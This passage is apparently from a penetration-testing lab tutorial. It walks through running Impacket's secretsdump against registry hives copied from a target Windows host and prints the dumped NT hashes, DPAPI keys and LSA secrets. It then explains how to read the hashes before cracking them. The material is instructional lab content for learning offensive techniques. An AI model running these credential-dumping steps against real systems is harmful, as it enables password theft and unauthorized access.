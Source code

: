 Using `secretsdump` is straightforward. We simply run the script with Python and specify each of the hive files we retrieved from the target host.

```shell-session
Ovas420@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up..
```

Here we see that `secretsdump` successfully dumped the `local` SAM hashes, along with data from `hklm\security`, including cached domain logon information and LSA secrets such as the machine and user keys for DPAPI.

Notice that the first step `secretsdump` performs is retrieving the `system bootkey` before proceeding to dump the `local SAM hashes`. This is necessary because the bootkey is used to encrypt and decrypt the SAM database. Without it, the hashes cannot be decrypted — which is why having copies of the relevant registry hives, as discussed earlier, is crucial.

Moving on, notice the following line:

```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

This tells us how to interpret the output and which hashes we can attempt to crack. Most modern Windows operating systems store passwords as `NT hashes`. Older systems (such as those prior to Windows Vista and Windows Server 2008) may store passwords as `LM hashes`, which are weaker and easier to crack. Therefore, LM hashes are useful if the target is running an older version of Windows.

With this in mind, we can copy the NT hashes associated with each user account into a text file and begin cracking passwords. It is helpful to note which hash corresponds to which user to keep track of the results.

